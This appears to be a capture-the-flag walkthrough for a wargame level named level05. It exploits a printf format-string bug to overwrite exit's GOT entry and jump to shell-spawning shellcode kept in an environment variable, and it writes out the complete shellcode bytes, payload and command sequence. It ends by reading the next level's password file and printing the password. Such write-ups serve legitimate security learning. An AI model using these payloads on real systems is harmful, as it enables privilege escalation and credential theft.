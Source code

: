 # Walkthrough level05

This binary do a fgets of 100 chars and use the result in first argument of printf.  
Override eip is not possible because we have an exit after the printf.
The only possible way to execute a shell is to replace exit plt address (`0x80497e1`)  
We can't write chars between 64 and 90 in ascii because the code transform this
chars with a XOR 32. To bypass this we write our shellcode in environment variable.  

Get the address of the beginning of the shellcode:

```bash
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
(gdb) x/s *environ
0xffffd873:      "SHELLCODE=(...)
```

Try to write the address of the shellcode in the address of exit:

```bash
(gdb) r < <(python -c 'print("\x08\x04\x97\xe0"[::-1] + "%4294957167d%10$n")')
Breakpoint 1, 0x08048513 in main ()
(gdb) x/xw 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

We can see that doesn't work.  
It's because we can't write as much chars with printf.  
Try to write the address in two times.

```bash
Split the address to write in 2 bytes:
low = 0xd873 = 55411
high = 0xffff = 65535
nop shifting = 40
address1 + address2 + %Xd%10$n + "%Yd%11$n"
X = low - 8 + 40 = 55443
Y = high - low - 40 = 10084
```

Let's exploit this:

```bash
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55443d%10$hn%10084d%11$hn")'; cat) | $PWD/level05
...
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
